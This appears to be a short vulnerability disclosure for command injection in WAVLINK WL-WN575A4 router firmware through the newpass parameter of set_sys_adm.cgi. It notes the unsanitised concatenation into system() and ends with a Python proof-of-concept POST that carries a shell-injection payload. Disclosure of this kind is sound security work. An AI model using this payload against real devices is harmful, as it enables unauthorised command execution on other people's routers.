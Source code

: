# command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in adm.cgi/set_sys_adm

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](2.png)

get value from newpass 

![](3.png)  
concate to v30 and call system, cause command injection


## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page=sysAdm&newpass=' + payload})
``` 
